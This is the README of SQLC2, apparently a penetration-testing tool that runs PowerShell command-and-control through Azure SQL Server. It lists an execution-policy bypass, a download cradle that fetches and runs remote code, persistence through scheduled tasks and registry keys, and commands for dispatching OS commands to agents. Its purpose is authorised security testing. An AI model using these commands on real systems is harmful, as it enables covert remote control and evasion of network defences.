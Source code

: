 # <bold>SQL</bold>C2
SQLC2 is a PowerShell script for deploying and managing a command and control system that uses SQL Server as both the control server and the agent.  At its core, SQLC2 is just a PowerShell script, a TSQL script, and a few tables in an SQL Server instance that tracks agents, commands, and results. Nothing too fancy, but it may prove to be useful on some engagements. 

For a more complete overview of SQLC2 check out the blog at https://blog.netspi.com/databases-and-clouds-sql-server-as-a-c2/.

### Author and License
* Author: Scott Sutherland (@_nullbind), NetSPI - 2018
* License: BSD 3-Clause
* Required Dependencies: None

# Why Bother with a SQL Server Based C2?
More companies are starting to use Azure SQL Server databases. When those Azure SQL Server instances are created, they are made accessible via a subdomain of database.windows.net on port 1433. For example, I could create SQL Server instance named "mysupersqlserver.database.windows.net". As a result, some corporate network configurations allow outbound internet access to any "database.windows.net" subdomain on port 1433. 

The general idea is that as Azure SQL Server adoption grows, there will be more opportunity to use SQL Server as a control channel that looks kind of like normal traffic.  SQLPS is a pretty basic proof of concept, but I think it’s functional enough to illustrate the idea. I know there are quite a few improvements to be made, but if you end up playing with it, I’d love your feedback.

### Not Just for Azure
Although there is an emphasis on using SQLC2 with Azure SQL Server instances, you could host your own SQL Server in any cloud environment and have it listen on port 443 with SSL enabled. So, it could offer a little more flexibility depending on how much effort you want to put into it.

# Loading SQLC2
* **Option 1:** Download the script and import it.  This does not require administrative privileges and will only be imported into the current session.  However, it may be blocked by restrictive execution policies, so you may want to use the bypass option.

    `Set-ExecutionPolicy Bypass -Scope Process`
    
    `Import-Module SQLC2.ps1`
    
* **Option 2:** Load it into a session via a download cradle.  This does not require administrative privileges and will only be imported into the current session.  It should not be blocked by executions policies.

    `IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/NetSPI/SQLC2/master/SQLC2.ps1")`

     **Note:** To run as an alternative domain user, use the runas command to launch PowerShell first. 

    `runas /noprofile /netonly /user:domain\user PowerShell.exe`
    
# Basic SQLC2 architecture diagram
![SQLC2Arch](https://github.com/NetSPI/SQLC2/blob/master/images/arch.png) 

# User Functions
Below is a list of user functions that support the intended workflows.  

|Function Name|Description |
|:--------------------------------|:-----------|
|Install-SQLC2Server|Install SQLC2 tables on target SQL Server/database.|
|Install-SQLC2AgentPs|Install an agent that uses an SQL Server agent job and server link.|
|Install-SQLC2AgentLink|Install an agent that uses a schedule task or registry key to execute PowerShell commands.|
|Set-SQLC2Command|Set operating system commands for agents to run.|
|Get-SQLC2Command|Get a list of pending operating system commands from the C2 for the agent.  This can also execute the pending command with the -Execute flag.|
|Get-SQLC2Agent|Get a list of agents registered on the SQLC2 server.| 
|Get-SQLC2Result|Get a list of pending and completed commands. Support servername, status, and cid filters.|
|Remove-SQLC2Agent|Remove agents registered on the SQLC2. Simply clears the history.|
|Remove-SQLC2Command|Remove the command history on the SQLC2 server.|
|Uninstall-SQLC2AgentLink|Uninstall SQLC2 agent that uses server links and an agent job.|
|Uninstall-SQLC2AgentPs|Uninstall all operating system based persistence methods.|
|Uninstall-SQLC2Server|Remove the SQLC2 tables from the target database.|

# Screen Shots
Below are a few sample screenshots.

Install SQLC2 Server (Create tables):

`Install-SQLC2Server -Verbose -Instance sqlserverc21.database.windows.net -Database test1 -Username CloudAdmin -Password 'BestPasswordEver!'`

![Install C2](https://github.com/NetSPI/SQLC2/blob/master/images/Install_SQLC2_Server.png) 

Install SQLC2 Agent (SQL Server agent Job that uses a server link):

`Install-SQLC2AgentPs -Verbose -Instance sqlserverc21.database.windows.net -Database test1 -Username CloudAdmin -Password 'BestPasswordEver!'`

![Install Agent](https://github.com/NetSPI/SQLC2/blob/master/images/Install_SQLC2_Link_Agent.png)  

View SQLC2 Agents:

`Get-SQLC2Agent -Verbose -Instance sqlserverc21.database.windows.net -Database test1 -Username CloudAdmin -Password 'BestPasswordEver!'`

![SQLC2Arch](https://github.com/NetSPI/SQLC2/blob/master/images/Get-Command-Results.png) 

Set Command to Run on Agent:

`Set-SQLC2Command -Verbose -Instance sqlserverc21.database.windows.net -Database test1 -Username CloudAdmin -Password 'BestPasswordEver!'
-Command "Whoami" -ServerName MSSQLSRV04`

![Set_Command](https://github.com/NetSPI/SQLC2/blob/master/images/Set%20Command%20to%20Run%20on%20Agent.png)        

Get Command Results:

`Get-SQLC2Result -Verbose -ServerName "MSSQLSRV04" -Instance sqlserverc21.database.windows.net -Database test1 -Username CloudAdmin -Password 'BestPasswordEver!'`

![Get Command Output](https://github.com/NetSPI/SQLC2/blob/master/images/List%20execute%20agent%20commands.png)       


